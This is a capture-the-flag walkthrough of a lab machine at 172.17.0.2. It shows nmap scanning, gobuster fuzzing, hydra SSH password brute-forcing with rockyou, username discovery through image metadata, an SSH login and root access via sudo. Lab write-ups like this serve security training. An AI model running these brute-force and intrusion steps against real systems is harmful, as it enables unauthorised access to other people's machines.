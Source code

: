 ![image](https://github.com/user-attachments/assets/374ceb90-ec8a-43da-bbe0-7d01e2960b58)
```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```
![Pasted image 20250122120119](https://github.com/user-attachments/assets/98063268-bfb7-4166-986b-f7dac808a972)
![Pasted image 20250122120143](https://github.com/user-attachments/assets/65ccbff3-f3d5-4fa6-8b05-5fadebdba089)
![Pasted image 20250122120214](https://github.com/user-attachments/assets/b2fe590c-57b9-496b-b5dc-78d3aefc0cbc)

## **Web Page**

![Pasted image 20250122120245](https://github.com/user-attachments/assets/f6e86c53-a46c-4f90-809d-4b9a04d11cec)

## **let's see the source code**
``CTRL+U``

![Pasted image 20250122120309](https://github.com/user-attachments/assets/c378dee1-f088-4ad0-ae8c-67e4eaf990f2)

## **and we only have one image nothing specific so we will continue researching and fuzziong trying to identify hidden directories.**
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```
![Pasted image 20250122120426](https://github.com/user-attachments/assets/ad258bad-6ab2-4037-9f81-a885d3ef8e7c)

## **we have not obtained any result so we are going to try to brute force the SSH service**
```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
```

## **one of the things we have overlooked is that we have an image to blame that could have hidden information.**

## **Download the image**
```bash
wget -c http://172.17.0.2/imagen.jpeg
```
![Pasted image 20250122120942](https://github.com/user-attachments/assets/49916c37-931e-4a2d-b445-c9072f6798c9)

```bash
steghide extract -sf imagen.jpeg
```
![Pasted image 20250122121808](https://github.com/user-attachments/assets/d0ad5f4d-d1eb-4830-8944-ed39d1b91584)

## **well we have not been able to find anything so we will keep looking at the image as this is what it doesn't say.**
```bash
exiftool imagen.jpeg
```
![Pasted image 20250122122211](https://github.com/user-attachments/assets/06b2d2cc-c6cb-4995-ba27-a9b960e7089f)

## **we already have a user now it's time to find a passwrd**
```bash
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
```
![Pasted image 20250122122346](https://github.com/user-attachments/assets/8da844c8-a213-4b0c-aa46-d277f6b71e39)

```bash
ssh borazuwarah@172.17.0.2
```
![Pasted image 20250122122516](https://github.com/user-attachments/assets/d74368cf-ba89-4f05-bd59-24fdb9d06675)

## **we will try to elevate privileges**
```bash
sudo -l
```
![Pasted image 20250122122702](https://github.com/user-attachments/assets/7efe8d57-29f5-4ea6-b9ea-bac7b4d9970d)

```bash
sudo bash
```
![Pasted image 20250122122847](https://github.com/user-attachments/assets/d75b5eb3-84e6-4a91-9294-56e9110900af)









